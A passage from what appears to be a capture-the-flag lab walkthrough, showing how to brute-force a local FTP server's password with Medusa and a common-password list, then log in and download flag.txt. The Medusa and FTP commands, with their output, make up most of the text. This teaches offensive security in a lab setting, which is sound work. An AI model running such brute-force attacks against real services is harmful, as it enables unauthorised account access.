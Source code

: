 Targeting the FTP Server
Having identified the FTP server, you can proceed to brute-force its authentication mechanism.

If we explore the /home directory on the target system, we see an ftpuser folder, which implies the likelihood of the FTP server username being ftpuser. Based on this, we can modify our Medusa command accordingly:
```bash
    [!bash!]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    
    Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
    
    GENERAL: Parallel Hosts: 1 Parallel Logins: 5
    GENERAL: Total Hosts: 1
    GENERAL: Total Users: 1
    GENERAL: Total Passwords: 197
    ...
    ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
    ...
    GENERAL: Medusa has finished.
```
The key differences here are:
  -h 127.0.0.1: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
  -u ftpuser: Specifies the username ftpuser.
  -M ftp: Selects the FTP module within Medusa.
  -t 5: Increases the number of parallel login attempts to 5.

Retrieving The Flag
Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the get command to download the flag.txt file, which may contain sensitive information.:
```bash
  [!bash!]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
  
  Trying [::1]:21 ...
  Connected to localhost.
  220 (vsFTPd 3.0.5)
  331 Please specify the password.
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  200 Switching to Binary mode.
  ftp> ls
  229 Entering Extended Passive Mode (|||25926|)
  150 Here comes the directory listing.
  -rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
  226 Directory send OK.
  ftp> get flag.txt
  local: flag.txt remote: flag.txt
  229 Entering Extended Passive Mode (|||37251|)
  150 Opening BINARY mode data connection for flag.txt (35 bytes).
  100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
  226 Transfer complete.
  35 bytes received in 00:00 (131.45 KiB/s)
  ftp> exit
  221 Goodbye.

```

